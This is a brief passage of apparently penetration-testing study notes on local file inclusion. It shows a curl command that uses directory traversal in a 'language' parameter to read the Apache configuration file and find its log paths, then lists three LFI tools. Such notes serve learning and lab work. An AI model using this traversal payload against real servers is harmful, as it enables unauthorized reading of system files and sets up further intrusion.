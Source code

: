 May be able to file log files in the config settings:
```shell
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```
### LFI Tools
[LFISuite](https://github.com/D35m0nd142/LFISuite)
[LFIFreak](https://github.com/OsandaMalith/LFiFreak)
[liffy](https://github.com/mzfr/liffy)
